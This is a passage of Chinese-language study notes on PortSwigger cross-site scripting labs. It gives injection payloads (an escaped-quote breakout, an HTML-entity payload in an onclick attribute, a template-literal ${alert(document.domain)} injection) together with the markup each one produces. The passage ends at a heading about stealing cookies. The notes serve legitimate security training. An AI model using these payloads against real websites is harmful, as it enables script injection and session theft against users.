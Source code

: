 會產生


```js
var searchTerms = '\\';alert(1);//';
```

## Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

| Dimension | Description                                                                                                                                                    |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#making-use-of-html-encoding                                                                 |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped |

在留言的 website 欄位輸入以下 payload


```
https://&apos;-alert(document.domain)-&apos;
```

result


```html
<a id="author" href="https://'-alert(document.domain)-'" onclick="var tracker={track(){}};tracker.track('https://'-alert(document.domain)-'');">123</a>
```

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

| Dimension | Description                                                                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-javascript-template-literals                                                             |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped |

payload


```js
${alert(document.domain)}
```

會產生以下


```js
var message = `0 search results for '${alert(document.domain)}'`;
```

## Lab: Exploiting cross-site scripting to steal cookies
